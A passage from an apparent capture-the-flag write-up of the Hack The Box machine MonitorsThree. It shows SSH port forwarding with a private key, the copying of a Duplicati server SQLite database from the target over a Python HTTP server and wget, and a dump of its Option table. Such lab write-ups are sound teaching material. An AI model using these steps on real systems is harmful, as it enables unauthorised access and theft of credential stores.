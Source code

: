 To investigate further, the port was forwarded to the local machine using SSH:<br>
`ssh -L 8200:localhost:8200 marcus@10.10.11.30 -i id_rsa`

Accessing `http://localhost:8200` displayed the Duplicati login page:
![](/assets/blogimages/Writeups/Hackthebox/MonitorsThree/MonitorsThree14.png)

Since the login credentials were unknown, the `/opt/duplicati/config` directory was examined. This revealed the presence of a file named `Duplicati-server.sqlite`
![](/assets/blogimages/Writeups/Hackthebox/MonitorsThree/MonitorsThree15.png)

The file was transferred to the attacker's machine for analysis:<br>
On target system: `python3 -m http.server 1234`<br>
On attacker's system: `wget 10.10.11.30:1234/Duplicati-server.sqlite`<br>

The SQLite database was opened:
`sqlite3 Duplicati-server.sqlite`

Listed tables:
`.tables`<br>
![](/assets/blogimages/Writeups/Hackthebox/MonitorsThree/MonitorsThree16.png)

Dumped **Option** table:
`select * from Option;`
```
4||encryption-module|
4||compression-module|zip
4||dblock-size|50mb
4||--no-encryption|true
-1||--asynchronous-upload-limit|50
-1||--asynchronous-concurrent-upload-limit|50
17||encryption-module|
17||compression-module|zip
17||dblock-size|50mb
17||--no-encryption|true
-2||startup-delay|0s
-2||max-download-speed|
-2||max-upload-speed|
-2||thread-priority|
```